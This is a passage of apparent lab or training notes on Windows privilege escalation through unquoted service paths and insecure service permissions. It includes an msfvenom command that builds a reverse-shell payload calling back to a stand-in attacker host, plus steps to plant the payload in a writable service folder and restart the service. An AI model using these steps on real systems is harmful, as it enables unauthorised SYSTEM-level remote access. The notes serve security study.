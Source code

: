 - We can check this using `icacls`:

`> icacls C:\MyPrograms`

![](/assets/img/Pasted image 20230103211227.png)

		- AD : allows users to create subdirectories
		- WD : allows users to create files

- The `BUILTIN\\Users` group has `AD` and `WD` privileges, allowing the user to create subdirectories and files, respectively.

- The process of creating an **exe-service payload** with `msfvenom` and transferring it to the target host is the same as before, so feel free to create the following payload and upload it to the server as before.
- We will also start a listener to receive the reverse shell when it gets executed.

`$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=Attacker_IP LPORT=4446 -f exe-service -o rev-svc2.exe`

![](/assets/img/Pasted image 20230103211730.png)

- Once the payload is in the server, move it to any of the locations where hijacking might occur.
- In this case, we will be moving our payload to `C:\MyPrograms\Disk.exe`.
- We will also `grant Everyone full permission` on the file/payload to make sure it can be executed by the service:

![](/assets/img/Pasted image 20230103212158.png)

- At this point, once the service gets restarted, your payload should execute:

`> sc stop "disk sorter enterprise"`
`> sc start "disk sorter enterprise"`

##### Conditions:
##### 1. The folder in which the service's binary resides on must be writable to the user's privilege that we currently have.
##### 2. The `SCM` has a vulnerability such that it parses "unquoted path service" wrong.
##### 3. The `Folders` and `files` used to get to the service (path/absolute path) has spaces.
##### 4. PLEASE USE `cmd.exe` for `sc qc...`. For some reason, PowerShell doesn't work with `sc qc ...` and can't tell SCM to continue running its services.

### Insecure Service Permissions
- You might still have a slight chance of taking advantage of a service if the `service's executable (DACL) is well configured`(meaning, you can't replace it with a malicious copy of the binary of the service), and `the service's binary path is rightly quoted`(no spaces).
- Should the `service DACL` (not the service's executable DACL) allow you to modify the configuration of service, you will be able to reconfigure the service.
- This will allow you to point to any executable you need and run it with any account you prefer, including `SYSTEM` itself.
- To check for a service `DACL` from the command line, you can use `Accesschk` from the Sysinternals suite.
